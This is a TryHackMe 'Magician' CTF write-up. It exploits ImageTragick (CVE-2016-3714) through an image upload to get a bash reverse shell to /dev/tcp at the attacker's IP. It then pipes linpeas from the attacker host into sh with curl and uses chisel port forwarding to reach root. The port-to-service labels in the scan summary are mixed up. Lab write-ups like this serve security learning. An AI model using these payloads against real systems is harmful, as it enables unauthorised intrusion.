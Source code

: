 ```yaml
---
title: TryHackMe - Magician
layout: post
categories:
- TryHackMe
tag: CVE-2016-3714
image: "/assets/img/magician.png"
image_alt: magician
---
```


This magical website lets you convert image file formats. Let's start.

<br>

## 1. Find the flags!   

Note: this machine needs about 7 minutes to start up, please be patient :)

Please add the IP address of this machine with the hostname "magician" to your /etc/hosts file on Linux before you start.
On Windows, the hosts file should be at C:\Windows\System32\drivers\etc\hosts.

Use the hostname instead of the IP address if you want to upload a file. This is required for the room to work correctly ;)

Have fun and use your magic skills!

<br>

### 1.1 user.txt

Let’s first add the hostname to our /etc/hosts file, as told above.

![hosts](/assets/img/tryhackme/magician/hosts.png)

Let's do a nmap scan.

```
$ nmap -sSV magician
```

![nmap](/assets/img/tryhackme/magician/nmap.png)

Three ports are open. These are **`21/tcp HTTP, 8080/tcp SSH, and 8081/tcp HTTP`**. 

First, I tried to see if I could login to the FTP server anonymously.

![ftp](/assets/img/tryhackme/magician/ftp.png)

I found an important clue here. 
This is what I came across when I visited this site: [https://imagetragick.com](https://imagetragick.com). 

![hint](/assets/img/tryhackme/magician/hint.png)

We will exploit a vulnerability using **`CVE-2016–3714`**.

Now let's check the websites running on other ports.

First I examine the site running on port 8080. 

![8080](/assets/img/tryhackme/magician/8080.png)

I couldn't find anything remarkable.

Now let's examine the site running on port 8081.

![home](/assets/img/tryhackme/magician/home.png)

As far as I can see, I can only upload images. Let's create a reverse shell by taking advantage of the CVE-2016–3714 vulnerability we found.

![image](/assets/img/tryhackme/magician/image.png)

```
$ cat > image.png << EOF
  push graphic-context
  encoding "UTF-8"
  viewbox 0 0 1 1
  affine 1 0 0 1 0 0 
  push graphic-context
  image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.86.168/4444 0<&1 2>&1'
  pop graphic-context
  pop graphic-context
  EOF
```

Now let's set up a netcat listener on our machine.

```
$ nc -nlvp 4444
```

Now we can upload it to the site.

![in](/assets/img/tryhackme/magician/in.png)

And we are inside.

Let's get the user flag.

![user-flag](/assets/img/tryhackme/magician/user-flag.png)


### 1.2 root.txt

Now we need root privilege. So let's download linepeas.sh and run it.

I'm downloading [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/20230319) on my own machine. 

Let's run the following code in the directory where linpeas.sh is located.

```
$ python -m http.server 80
```

Then let's run the following code on the target machine.

```
$ curl 10.8.86.168/linpeas.sh | sh
```

And it worked. Let's see what we can find.

I found this.

![linpeas](/assets/img/tryhackme/magician/linpeas.png)

There is something running on port 6666. To achieve this, we need to do port forwarding.

First, let's download the [chisel](https://github.com/jpillora/chisel/releases) to our own machine and send it to the target machine. 

```
$ wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_arm64.gz
$ gunzip chisel_1.8.1_linux_arm64.gz  
$ mv chisel_1.8.1_linux_arm64 chisel
$ python -m http.server 80
```

![chisel](/assets/img/tryhackme/magician/chisel.png)

On the target machine, we run the following codes.

```
$ wget http://10.8.86.168/chisel
$ chmod +x chisel
$ ./chisel client 10.8.86.168:5555 R:5554:127.0.0.1:6666
```

![chisel-target](/assets/img/tryhackme/magician/chisel-target.png)

Then ı return to my own machine and run the following codes.

```
$ sudo apt-get install chisel
$ chisel server --reverse --port 5555
```

![chisel-own](/assets/img/tryhackme/magician/chisel-own.png)

Now we can look at the site running on the port we forwarded. [http://0.0.0.0:5554](http://0.0.0.0:5554)

![run](/assets/img/tryhackme/magician/run.png)

We are looking for /root/root.txt. Press the Submit button until the base64 code is displayed.

![encode](/assets/img/tryhackme/magician/encode.png)

Let's crack it.

![decode](/assets/img/tryhackme/magician/decode.png)

<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>

